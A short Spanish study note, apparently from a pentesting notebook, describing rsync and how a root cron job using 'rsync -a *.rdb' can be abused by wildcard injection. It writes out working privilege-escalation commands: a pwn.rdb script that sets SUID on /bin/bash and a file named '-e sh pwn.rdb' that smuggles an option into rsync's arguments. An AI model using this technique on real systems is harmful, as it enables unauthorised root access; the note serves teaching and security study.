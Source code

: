 -----
- Tags: #teoria #practica #basico 
- ------

# Rsync

### **Rsync** es una utilidad de sincronización y copia de archivos que se utiliza para transferir y sincronizar datos entre directorios, ya sea en la misma máquina o entre máquinas remotas a través de una red. La principal caraterística distintiva de rysnc es su eficiencia en la trasnsferencia de datos, ya que utiliza algoritmos avanzados que minimizan el uso de ancho de banda y reducen el teimpo necesario para sincronizar archivos. 

----

# Abuso 

### En máquinas donde se use rsync, depende el uso que se le de podría suponer un riesgo, por ejemplo, supongamos que tenemos una tarea cron que es ejecutada por root la cual se encarga de realizar la siguiente operación. 

```bash 
rsync -a *.rdb rsync://backup:873/src/rdb
```

### Lo que vemos es que se esta haciendo uso del '**\***' lo que no es buena idea ya que de alguna manera se confía en el input del usuario (Sobre todo si el directorio de trabajo contiene permisos de escritura). 

### Al utilizar **\*.rdb** se estan englobando a todos los archivos finalizados en **.rdb** de manera que podríamos abusar de esto de una manera muy sensilla. 

```bash
echo -e "#!/bin/bash\n\nchmod u+s /bin/bash" > pwn.rdb 
touch -- '-e sh pwn.rdb'
```

### De esta manera lo que estamos haciendo es crear un archivo llamada **pwn.rdb** 

#### pwn.rdb content:
```bash
#!/bin/bash

chmod u+s /bin/bash
```

### Y por otro lado crear un archivo llamado **-e sh pwn.rdb**, lo que ocaciona que al estar haciendo uso del '**\***' (*Wildcards*) para englobar todos los archivos que terminen en **.rdb**, ambos terminana en *.rdb* pero el primero (**pwn.rdb**) contiene un script en bash que le otorga un permiso SUID a la bash y el otro (**-e sh pwn.rdb**) permite inyectar este "archivo" como comando, y dado que **rsync** cuenta con el parametro **-e** el cual permite ejecución de comandos. Esto lo podemos encontrar en páginas como [gtfobins](https://gtfobins.github.io/gtfobins/rsync/#shell).


